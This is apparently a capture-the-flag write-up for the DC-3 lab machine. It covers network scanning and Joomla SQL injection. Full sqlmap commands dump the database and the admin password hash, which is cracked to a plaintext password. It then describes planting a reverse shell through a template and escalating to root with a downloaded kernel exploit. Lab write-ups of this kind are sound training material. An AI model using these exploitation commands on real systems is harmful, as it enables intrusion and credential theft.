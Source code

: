 

### **Netdiscover**

![netdiscover](images/dc3/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc3/nmap.png)

We found some services <u>HTTP</u>

------

### Searchsploit & Msf

![version_scan](images/dc3/version_scan.png)

![searchspolit](images/dc3/searchspolit.png)

By searchsploit joomla version, we can find one exploit ways existed.we save this exploit scripts

------

### Solution

we cat exsploit and use these payload

![payload](images/dc3/payload.png)

We use this payload ==> get database

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs`

![database](images/dc3/database.png)

We use this payload ==> get tables

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables`

<img src="images/dc3/tables.png" alt="tables" style="zoom: 50%;" />

We use this payload ==> get tables

`sqlmap -u "http://192.168.0.105/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump`

![user](images/dc3/user.png)

So user admin's password hash is got. let's to use john to brute force it, the password is **snoopy**

![password](images/dc3/password.png)

Now we login in this web admin pages.

![home](images/dc3/home.png)

we use gobuster to scan, found /administrator, /robots.txt.dist, /templates, so we login in /administrator

![joomla_admin](images/dc3/joomla_admin.png)

![manager](images/dc3/manager.png)

Now we should use template to reverse shell to get www-data privilege.

![template](images/dc3/template.png)

So when we link to this http://192.168.0.105/templates/protostar/hello.php,  connected successfully!!

![ls1](images/dc3/ls1.png)

we try enum the system scripts, but found nothing. then try to find system version.

![os](images/dc3/os.png)

use searchsploit

![searchsploit2](images/dc3/searchsploit2.png)

![exploit](images/dc3/exploit.png)

So i wget this zip from my apache server, unzip it .

![ls2](images/dc3/ls2.png)

![ls3](images/dc3/ls3.png)

accroding to the exploit steps, we should execute ./compile.sh, then ./doubleput.

![flag](images/dc3/flag.png)

Successfully!!!

------

**That' all , Thanks for your watching**